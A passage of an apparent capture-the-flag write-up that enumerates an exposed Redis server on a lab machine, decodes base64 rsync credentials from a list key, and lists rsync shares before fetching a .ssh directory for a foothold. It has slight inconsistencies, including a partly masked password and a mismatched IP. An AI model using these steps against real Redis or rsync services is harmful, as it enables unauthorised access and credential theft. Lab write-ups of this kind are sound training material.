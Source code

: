 After connecting to the redis server, we authenticate with `AUTH {password}`, then we list the available databases with `INFO keyspace`, this shows one database that contains 4 keys, we select that database with `SELECT 0` because in redis the databases are numbers starting from 0. Then we list the keys with `KEYS *`. To get the content of a key, we use `get {key}`.

We couldn't get the `authlist` the normal way, but we can get it with `LRANGE authlist 0 -1`

```terminal
10.10.68.193:6379> LRANGE authlist 0 -1
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
4) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

```

We got a base64 encoded string, let's decode it with the following command:

```bash
echo 'QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==' | base64 -d

Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@xxx
```

## Rsync Hcg3HP67@TW@Bc72v

We got credentials for rsync, let's connect.

```terminal
$ rsync rsync://rsync-connect@10.10.10.10
files           Necessary home interaction
```

Let's see what's on `files`.

```terminal
$ rsync rsync://rsync-connect@10.10.68.193/files                                                                                     
Password: 
drwxr-xr-x          4,096 2021/02/01 07:51:14 .
drwxr-xr-x          4,096 2021/02/06 07:49:29 sys-internal
```

Now if we list `sys-internal`, we get tons of file, but we notice a .ssh directory,

# **Foothold**

Let's download the content of the ssh directory to our machine.

![](2.png)
